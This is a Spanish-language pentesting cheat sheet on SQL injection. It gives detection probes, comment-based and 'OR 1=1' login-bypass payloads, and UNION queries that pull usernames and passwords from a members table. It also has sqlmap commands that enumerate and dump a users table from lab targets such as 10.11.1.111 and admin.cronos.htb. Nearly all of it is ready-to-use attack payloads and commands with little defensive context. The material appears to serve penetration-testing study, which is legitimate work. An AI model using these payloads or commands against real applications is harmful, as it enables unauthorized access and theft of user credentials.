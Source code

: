   

## Como detectar SQL Injection

Enviar el carácter de comillas simples `'`y buscando errores u otras anomalías.

Enviar condiciones booleanas como `OR 1=1`y `OR 1=2, and`buscando diferencias en las respuestas de la aplicación.

Line Comments 

- Nombre de usuario: ` admin'--`

- `SELECT * FROM members WHERE username = 'admin'--' AND password = 'password' `Esto lo registrará como usuario administrador, porque se ignorará el resto de la consulta SQL. 

- Sentencia If de SQL Server 

  `IF ***condition\*** ***true-part\*** ELSE ***false-part\***`(S) 
  `IF (1=1) SELECT 'true' ELSE SELECT 'false'`

- Con union, realiza consultas  SQL en tablas cruzadas.  Básicamente, puede envenenar la consulta para  devolver registros de otra tabla. 

  `SELECT header, txt FROM product UNION ALL SELECT name, pass FROM members `
  Esto combinará los resultados de la tabla de productos y la tabla de miembros y los devolverá todos. 

- *Inyección SQL 101* , trucos de inicio de sesión 

  ```sql
  - `admin' --`
  - `admin' #`
  - `admin'/*`
  - `' or 1=1--`
  - `' or 1=1#`
  - `' or 1=1/*`
  - `') or '1'='1--`
  - `') or ('1'='1--`
  
  - Iniciar sesión como otro usuario 
    `' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--`
  ```

Estas serian algunas de las que podriamos probar de manera manual, luego tendriamos diferentes programas que nos ayudan como por ejemplo SQLMap, la manera de ejecutar las consultas puede variar dependiendo de como este creada la base de datos, para esto lo que tendremos que hacer sera identificarlo bien para su explotacion.

**SQLMAP**

```javascript
# Post
sqlmap -r search-test.txt -p tfUPass

# Get
sqlmap -u "http://10.11.1.111/index.php?id=1" --dbms=mysql

# Crawl
sqlmap -u http://10.11.1.111 --dbms=mysql --crawl=3

# Full auto - FORMS
sqlmap -u 'http://10.11.1.111:1337/978345210/index.php' --forms --dbs --risk=3 --level=5 --threads=4 --batch
# Columns 
sqlmap -u 'http://admin.cronos.htb/index.php' --forms --dbms=MySQL --risk=3 --level=5 --threads=4 --batch --columns -T users -D admin
# Values
sqlmap -u 'http://admin.cronos.htb/index.php' --forms --dbms=MySQL --risk=3 --level=5 --threads=4 --batch --dump -T users -D admin
```